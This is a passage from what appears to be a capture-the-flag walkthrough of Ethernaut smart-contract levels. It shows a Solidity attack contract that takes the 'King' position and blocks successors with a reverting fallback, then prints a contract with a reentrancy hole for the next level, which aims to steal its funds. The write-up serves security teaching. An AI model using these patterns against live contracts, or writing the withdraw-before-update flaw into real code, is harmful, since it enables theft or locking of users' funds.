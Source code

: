 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Create new contract
contract KingSolution {
    constructor(address _kingInstance) payable {
      // (1) We will manually set the value in Remix
      // For example '1100000000000000' which is greater than the current prize
         _kingInstance.call{value:msg.value}("");
    }
    // (2) The fallback will immediately revert to prevent the declaration
    fallback() external {
        revert("No new kings!");
    }
}
```

On deployment, we specify both the `value` and `_kingInstance` address.

Let's verify our contract was successful in sending the value by checking how much the current prize is.

```js
> fromWei(await contract.prize())
< '0.0011'
```

The value matches what was entered on deployment. We submit the instance and ... "Well done, You have completed this level!!!"

## <a name='Re-entrancy'></a> 10. Re-entrancy

> The goal of this level is to steal all the funds from the contract.

Given the name of the level, I believe we already know how we might win this level. We are presented with the below contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {

  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

```